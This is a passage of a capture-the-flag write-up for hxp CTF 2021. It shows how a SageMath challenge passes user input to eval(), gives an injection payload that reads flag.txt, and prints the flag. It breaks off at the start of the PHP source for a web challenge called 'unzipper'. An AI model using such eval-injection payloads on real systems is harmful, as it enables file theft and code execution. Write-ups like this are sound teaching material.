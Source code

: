     assert zeta(s) == 0                     # uhm ok
    print(open('flag.txt').read().strip())
    ```
    * ```https://hxp.io/blog/72``` is a hint for us, the link says that in python2 the input() function will reads some input and then ```eval()``` it
    * However, in this case only python3 is allowed
    * It still might be useful if other functions have similar behavior, we can start from the ```CC.to_prec``` function since it'll take our input as parameter
  * Fuzzing with this function get some interesting error response and result
    ```python
    #Input
    CC.to_prec(160)('print(123)')
    #Output
    flag
    NaN + NaN*I

    #Input
    CC.to_prec(160)('print(flag.txt)')
    #Error message
    /home/sage/sage/local/lib/python3.7/site-packages/sage/misc/sage_eval.py in sage_eval(source, locals, cmds, preparse)
        201         return locals['_sage_eval_returnval_']
        202     else:
    --> 203         return eval(source, sage.all.__dict__, locals)
        204 
        205 

    /home/sage/sage/local/lib/python3.7/site-packages/sage/all.py in <module>()

    NameError: name 'flag' is not defined
    ```
    * The result indicates that this function also used ```eval``` and it can execute python function
  * payload
    * ```Dear Bernhard: Your conjecture is false, for print(open('flag.txt').read()) is a counterexample.```
* Flag
  * ```hxp{0NE_M1LL10N_D0LLAR5}```
* Reference
  * [Buckeye Bureau of BOF](https://github.com/cscosu/ctf-writeups/tree/master/2021/hxp_ctf/brie-man)

### WEB
#### unzipper
* Description
  > Difficulty estimate: medium
  > 
  > Here, let me unzip that for you.
  * [unzipper-344248a9240214c2.tar.xz](https://2021.ctf.link/assets/files/unzipper-344248a9240214c2.tar.xz)
  * ```http://65.108.176.76:8200/```
* Solution
  * Take a look at the source code
    ```php
    <?php
    session_start() or die('session_start');
